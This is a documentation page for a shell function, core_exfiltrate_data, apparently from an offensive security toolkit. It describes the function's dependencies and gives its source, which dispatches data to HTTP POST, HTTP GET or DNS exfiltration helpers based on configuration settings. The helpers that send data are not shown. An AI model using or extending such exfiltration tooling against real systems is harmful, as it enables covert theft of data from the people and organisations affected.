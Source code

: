 # Exfiltrate Data

### Purpose
Routes data to appropriate exfiltration method (HTTP POST/GET or DNS) based on `EXFIL_METHOD` setting. Validates URI is provided, logs attempt, calls method-specific functions, and handles success/failure results.

### Dependencies
| Type | Name | Value |
|------|------|-------|
| Global Variable | `LOG_ENABLED` | `false` |
| Global Variable | `EXFIL_METHOD` | `"none"` |
| Global Variable | `EXFIL_URI` | `""` |
| Global Variable | `EXFIL_TYPE` | `"none"` |
| Global Variable | `CMD_PRINTF` | `"printf"` |
| Function | `core_log_output()` | For logging exfiltration attempts |
| Function | `core_handle_error()` | For error handling |
| Function | `core_exfil_http_post()` | For HTTP POST exfiltration |
| Function | `core_exfil_http_get()` | For HTTP GET exfiltration |
| Function | `core_exfil_dns()` | For DNS exfiltration |
| Function | `core_get_timestamp()` | For timestamp generation |

<details>

```shell
core_exfiltrate_data() {
local data="$1"
    local result=0
    
    # Log exfiltration attempt
    if [ "$LOG_ENABLED" = true ]; then
        core_log_output "Exfiltrating data via $EXFIL_METHOD" "info" false
    fi
    # Check for required URI
    if [ -z "$EXFIL_URI" ]; then
        core_handle_error "No exfiltration URI specified for $EXFIL_METHOD"
            return 1
    fi
    # Route to appropriate method
    case "$EXFIL_METHOD" in
        http|https)
            # Determine whether to use POST or GET based on EXFIL_TYPE
            if [ "$EXFIL_TYPE" = "http" ]; then
                core_exfil_http_post "$data"
            else
                core_exfil_http_get "$data"
            fi
            result=$?
            ;;
            
        dns)
            core_exfil_dns "$data"
            result=$?
            ;;
            
        *)
            core_handle_error "Unknown exfiltration method: $EXFIL_METHOD"
            return 1
            ;;
    esac
    
    # Handle result
    if [ $result -ne 0 ]; then
        core_handle_error "Failed to exfiltrate data via $EXFIL_METHOD"
        return 1
    fi
    
    "$CMD_PRINTF"  "[INFO] [%s] Data exfiltrated successfully via %s
" "$(core_get_timestamp)" "$EXFIL_METHOD"
    return 0
}
```

</details> 